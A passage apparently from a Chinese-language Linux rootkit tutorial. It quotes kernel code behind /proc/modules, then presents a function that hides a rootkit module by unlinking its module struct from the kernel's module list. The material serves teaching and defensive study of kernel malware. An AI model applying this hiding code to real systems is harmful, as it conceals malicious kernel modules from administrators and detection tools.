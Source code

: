 ```
* This also sets the "private" pointer to non-NULL if the
* kernel pointers should be hidden (so you can just test
* "m->private" to see if you should keep the values private).
*
* We use the same logic as for /proc/kallsyms.
*/
static int modules_open(struct inode *inode, struct file *file)
{
        int err = seq_open(file, &modules_op);
 
        if (!err) {
                struct seq_file *m = file->private_data;
 
                m->private = kallsyms_show_value(file->f_cred) ? NULL : (void *)8ul;
        }
 
        return err;
}
 
static const struct proc_ops modules_proc_ops = {
        .proc_flags        = PROC_ENTRY_PERMANENT,
        .proc_open        = modules_open,
        .proc_read        = seq_read,
        .proc_lseek        = seq_lseek,
        .proc_release        = seq_release,
};
 
static int __init proc_modules_init(void)
{
        proc_create("modules", 0, NULL, &modules_proc_ops);
        return 0;
}
module_init(proc_modules_init);
```

因此我们不难想到的是**我们可以通过将 rootkit 模块的 module 结构体从双向链表上脱链的方式完成模块隐藏**，我们可以通过 `THIS_MODULE` 宏获取对当前模块的 `module` 结构体的引用，从而有代码如下：

```
static void nornir_hide_mod_unlink_module(void)
{
    struct list_head *list;
 
    if (orig_module_mutex) {
        mutex_lock(orig_module_mutex);
    }
 
    list = &(THIS_MODULE->list);
    list_del(list);
 
    if (orig_module_mutex) {
        mutex_unlock(orig_module_mutex);
    }
}
```
